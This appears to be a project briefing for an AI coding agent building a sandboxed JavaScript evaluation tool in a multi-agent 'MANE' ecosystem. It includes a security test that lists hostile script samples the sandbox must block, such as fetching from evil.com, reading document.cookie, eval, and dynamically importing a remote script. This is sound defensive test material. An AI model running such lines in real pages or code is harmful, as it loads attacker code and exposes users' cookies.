 ```javascript
```

### Security Tests:
```javascript
// tests/evaluate/security.test.mjs
const MALICIOUS_SCRIPTS = [
  'fetch("https://evil.com")',
  'document.cookie',
  'localStorage.setItem("key", "value")',
  'eval("alert(1)")',
  'new Function("alert(1)")()',
  'import("https://evil.com/script.js")'
];

for (const script of MALICIOUS_SCRIPTS) {
  test(`blocks: ${script}`, async () => {
    const result = await tool.execute({ script, sandbox: true });
    expect(result.success).toBe(false);
    expect(result.error).toContain('blocked');
  });
}
```

## 💡 Pro Tips

- **Chrome DevTools First**: Master the CDP API for reliable execution
- **Security by Default**: Always assume input is malicious
- **Performance Monitoring**: Track every metric, optimize bottlenecks
- **Timeout Prevention**: Set aggressive timeouts, handle gracefully
- **Clear Documentation**: Document all security decisions

## 🌟 Integration with MANE Ecosystem

### Foundation Integration:
- Extends `BaseBrowserTool` from foundation
- Uses foundation monitoring for metrics
- Leverages foundation logger for debugging
- Auto-registers with `ToolRegistry`

### Cross-Agent Dependencies:
- **Agent A (Foundation)**: Base classes and registry
- **Agent B (Framework)**: UI components for evaluation results
- **Agent G (Audit)**: Security validation of executed scripts
- **Agent H (Console)**: Capture evaluation console output

### XML Compliance:
- ✅ All files use `.mjs` extension
- ✅ All imports include `.mjs` extension
- ✅ JSDoc types instead of TypeScript
- ✅ Foundation integration verified

---

**🧪 You are the master of secure JavaScript execution. Fix the timeout issues, implement bulletproof sandboxing, and enable AI agents to execute code fearlessly in the MANE ecosystem!** 🚀✨